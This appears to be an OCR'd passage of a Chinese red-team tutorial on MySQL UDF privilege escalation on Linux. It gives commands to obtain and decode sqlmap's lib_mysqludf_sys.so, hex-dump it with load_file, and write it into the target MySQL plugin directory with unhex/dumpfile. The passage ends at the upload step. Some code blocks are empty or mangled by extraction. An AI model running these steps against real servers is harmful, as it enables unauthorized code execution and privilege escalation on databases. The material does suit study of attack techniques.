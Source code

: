 

1. 准备udf库文件

需要选择对应的版本，否则会报错。

- 从sqlmap获取

  sqlmap中有现成的udf文件。分别是32位和64位的。这里选择`sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_`。

  不过这里的so是异或过的，需要执行以下命令解密：

  ```
  cd sqlmap/extra/cloak
  
  python3 cloak.py -d -i /security/ctf/tools_bar/4_注入攻击/SQLI/sqlmap-dev/data/udf/mysql/linux/64/lib_mysqludf_sys.so_
  ```

  

  此时会在相同目录生成解密后的lib_mysqludf_sys.so。

- 从metasploit中获取

  在kali的`/usr/share/metasploit-framework/data/exploits/mysql`目录下找到相应的库即可。

  *这个库和sqlmap解密后的一模一样。*

- 自行编译

 下载[lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)

1. 上传udf库文件

   1. 获取库文件的16进制

      ```
      ```
      ```
      
      

   # [这里的mysql交互命令行是本地的，随意开一个就行](https://github.com/SEC-GO/Red-vs-Blue/blob/master/linux环境下的MySQL UDF提权.md#这里的mysql交互命令行是本地的随意开一个就行)

   mysql> select hex(load_file('/security/ctf/tools_bar/4_注入攻击/SQLI/sqlmap-dev/data/udf/mysql/linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt'; Query OK, 1 row affected (0.03 sec) ```

   1. 上传库文件

   ```
   # 这里的mysql交互命令行是目标数据库，7F454C46020打头的参数即/tmp/udf.txt的内容（注意去掉最后的换行）
   mysql> select unhex('7F454C46020...') into dumpfile '/usr/local/Cellar/mysql/5.7.22/lib/plugin/mysqludf.so';
   Query OK, 1 row affected (0.04 sec)
   ```

   

   上传库文件也可以通过临时表中转的方式，此处略。
